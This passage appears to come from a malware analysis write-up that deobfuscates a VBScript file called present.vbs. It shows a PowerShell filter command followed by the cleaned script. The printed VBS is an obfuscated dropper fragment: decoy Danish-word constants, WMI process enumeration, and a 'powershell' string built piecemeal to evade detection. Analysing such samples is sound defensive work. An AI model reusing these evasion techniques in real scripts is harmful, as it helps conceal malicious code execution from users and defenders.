 For one, there is words here that are Danish, so I can't help but read them when trying to deobfuscate. 
Other than that, comments in vbs starts with a single qoute `'` or `rem` - so let's remove all lines starting with a comment and empty lines.

{% highlight powershell %}
Get-Content -Path .\present.vbs | sls -NotMatch "'" | sls -NotMatch "^$"

Nonphilosophicalgloriat = LenB("Ritualizing")
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.oot\cimv2")
Private Const Overcrammi = &HFFFFB15F
Private Const Rdkridtet = &HFFFFB96E
Private Const Delarbejdets = -19974
Private Const Sammentraengte = "Atokal Becram Latchkeys"
Private Const Tlleapparaternes = "Tropikfronters Udludningen Uigenkaldeliges122 Gunsels"
Private Const Dispergeringsmidlers = "Homostyled Tiltuskede"
Private Const Indlejrende = -36431
Private Const Iteratively = "Rhyptical Stetoskopers"
Private Const Spadillers = "Decursive consubstantialism"
Private Const Gemenheden136 = "Afstumpningens Elusiveness Encirclements"
Private Const kromosomernes = "fells Fastballs Laron"
Private Const Insures = "Forsvarlige ydernes Approachens"
Private Const Medianens = -11670
Private Const Udviklingspsykologerne = &HDCEC
Private Const Afrustet = "Ceded Prajene Linkages"
Private Const Hyperalgebra228 = &HFFFFB5B0
Private Const Overrapturize = -45841
Private Const Sandormene = 21903
Private Const Ravenhood = "Outwrites Negligibly"
Private Const Zara = -40317
Private Const Landsforeningers = &HFFFF612F
Private Const Spulings = 53917
Private Const Forfjerdinger = &HFFFF1B6F
Private Const Matus = -64522
Private Const omskrendes = &HFFFF2EBE
Private Const Udpolstringerne70 = &HFFFF4034
Private Const Grandmother241 = -15586
Private Const Studeopdrtters = -10206
Private Const Elisas = "Redeployment Leglet"
Private Const Panicking = "Seriously Noisiest"
Private Const Rdhud = 64782
Private Const Rebelly = "Absenteringers Paleodendrologic Stvfrakkernes Suspenderendes"
Private Const Davon = -62249
Private Const Korsfst = &HCEA8
Private Const Busstoppestederne = 52451
Private Const Undladtes = &HFFFFBCBF
Private Const Idiologism = -21819
Private Const Kokoromiko = &HFFFF0BF2
Private Const Skalken = &H8570
Private Const Stribningens = -8436
Private Const Synthesization = "Graags157 Helligtrekongers Lillefingrene"
Private Const Lydbaands = 63620
Private Const Omphalodia = -38461
Private Const Butyrousness = "Witting Blokhaandteringens"
Private Const chirogymnast = "Smsyning blackballed"
Set colProcess = objWMIService.ExecQuery ("Select * from Win32_Process")
Modulidae = "WScript." & "Shell"
Set Firklverne = CreateObject(Modulidae)
For Each objProcess in colProcess
    bb=instr(1,objProcess.Name,"s",vbTextCompare)
        if bb <> 0 then exit for
Next
Unrustling = mid(objProcess.Name,bb,1)
Aadselsbilles = "power" & Unrustling & "hell "